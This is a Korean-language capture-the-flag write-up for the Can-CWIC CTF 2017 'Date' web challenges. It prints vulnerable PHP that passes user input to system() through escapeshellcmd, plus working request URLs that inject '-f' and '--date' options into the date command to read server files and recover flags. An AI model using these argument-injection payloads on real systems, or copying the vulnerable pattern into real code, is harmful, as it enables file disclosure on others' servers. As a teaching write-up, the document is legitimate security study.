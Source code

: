 # [WEB] Can-CWIC CTF 2017- Date 1, 2

# Description
### date 1
Never be late to a romantic appointment again!

[The Date of Today][webpage]

Can you find the easy flag?

### date 2
Can you find the real flag?

[The Date of Today][webpage]

# Analysis
date1, 2는 같은 페이지를 대상으로 한다.
페이지에 접속하면 뭔가 굉장히 많이본 리눅스 명령어인 date의 사용 설명서와 이를 실행하는 것 같다.

http://159.203.38.169:5675/.index.php.swp 에서 vi의 백업 파일을 얻을 수 있었다.

이를 통해 얻은 소스 중 php부분을 보면 다음과 같다.
```php
<!-- 생략 -->
<h1>
<?php
$cmd = 'date';
$fmt = isset($_GET['fmt'])?$_GET['fmt']:"";
if (isset($_GET['rfc'])) {
	$cmd = $cmd . ' -R';
	$rfcx = ' checked';
}
if ($fmt != "") {
	$cmd = $cmd . ' +' . $fmt;
	$fmtx = ' value="' . $fmt . '"';

}
$cmd = escapeshellcmd($cmd);
$res = system($cmd . " 2>&1");

include 'varflag.php';
if ($res === $date && strpos($fmt, 'easter') != false) {
	echo "<b style='color:red'>$flag</b>";
}
?>
</h1>
	<br>
	<form action="index.php" method="GET">
	<div class="form-group">
	  <label>Format : </label>
	  <input type="text" name="fmt" class="form-control"<?=$fmtx?>></input>
	  </div>
	<div class="checkbox">
	<label><input type="checkbox" name="rfc"<?=$rfcx?>>RFC 2822</label>
	  </div>


	  <input type="submit" class="pull-right btn btn-primary"
	    value="Update"></input>
	</form>
	<br>
<!-- 생략 -->
```
system 함수를 통해 date 명령어를 실행한다.
또한 varflag.php안에 $flag변수가 있는 것으로 추측된다.

# Exploit
Date 1. Command Injection

Date 2. Date Command

## Date 1. Command Injection
system 을 사용하기는 하나 escapeshellcmd에 의해 command injection이 불가능하다.
> 참조 : http://php.net/manual/en/function.escapeshellcmd.php

그러나 date의 옵션 중 -f 옵션을 이용해 파일을 읽을 수 있다.

fmt파라미터로 ` -f varflag.php`를 요청하면 다름과 같은 페이지 정보를 얻을 수 있다.
```html
<!-- http://159.203.38.169:5675/?fmt=%20-f%20varflag.php -->
    <div class="panel panel-default centered">
      <div class="panel-heading"><h1>The Date of Today</h1></div>
      <div class="panel-body">
<h1>
date: invalid date '<?php'
date: invalid date '$date = "Sunday April 1st 2018. 2018-04-01";'
date: invalid date '$easy_flag = "FLAG{Want Love? Don\'t Date!}";'

date: invalid date '?>'
</h1>
	<br>
	<form action="index.php" method="GET">
	<div class="form-group">
	  <label>Format : </label>
	  <input type="text" name="fmt" class="form-control" value=" -f varflag.php"></input>
	  </div>
	<div class="checkbox">
	<label><input type="checkbox" name="rfc">RFC 2822</label>
	  </div>


	  <input type="submit" class="pull-right btn btn-primary"
	    value="Update"></input>
	</form>
	<br>
```

varflag.php안에 `$easy_flag = "FLAG{Want Love? Don\'t Date!}"`가 존재하였다.

**FLAG{Want Love? Don\'t Date!}**

## Date 2. Date Command
fmt 파라미터로 ` -f index.php`를 요청하면 처음에 얻은 `.index.php.swp`이랑 소스가 조금 다른것을 확인할 수 있다.
```php
# .index.php.swp
$cmd = escapeshellcmd($cmd);
$res = system($cmd . " 2>&1");

include 'varflag.php';
if ($res === $date && strpos($fmt, 'easter') != false) {
	echo "<b style='color:red'>$flag</b>";
}

# index.php
$cmd = escapeshellcmd($cmd);
$res = system("timeout 5s " . $cmd . " 2>&1");

include 'varflag.php';
if ($res === $date && (strpos($fmt, 'easter') != false || preg_match('/[0-9]/', $fmt) == 0)) {'
    echo "<b style='color:red'>$flag</b>";
}
```
system안에 timeout 명령어가 추가한건 /var/log/apache2/access.log와 같은 파일을 읽는 것을 방지하며, 서버 부하를 줄이기 위함인 것 같다.
그리고 if문 또한 변경되었는데 system 명령어의 결과 값이 위에서 찾은 varflag.php의 $date인 `Sunday April 1st 2018. 2018-04-01`이며, easter 문자열과 숫자가 들어가면 안된다.

date의 FORMAT을 `date +"%A %B %-dst %Y. %Y-%m-%d"`을 통해 `Tuesday October 10st 2017. 2017-10-10`의 형태로 바꿔준다.

또한 date의 옵션 중 `--date`를 통해 원하는 날짜로 변경을 한다.
> yesterday, last month, next year

이를 이용해 `fmt="%A %B %-dst %Y. %Y-%m-%d" --date "last month last month last month last month last month last month yesterday yesterday yesterday yesterday yesterday yesterday yesterday yesterday yesterday next year"`를 서버에 요청하면 플래그를 얻을 수 있다.
```
# http://159.203.38.169:5675/?fmt=%22%A%20%B%20%-dst%20%Y.%20%Y-%m-%d%22%20--date%20%22last%20month%20last%20month%20last%20month%20last%20month%20last%20month%20last%20month%20yesterday%20yesterday%20yesterday%20yesterday%20yesterday%20yesterday%20yesterday%20yesterday%20yesterday%20next%20year%22

Sunday April 1st 2018. 2018-04-01 
FLAG{EASTER2018ISAFOOLSDAY}
```


**FLAG{EASTER2018ISAFOOLSDAY}**

[webpage]:http://159.203.38.169:5675/

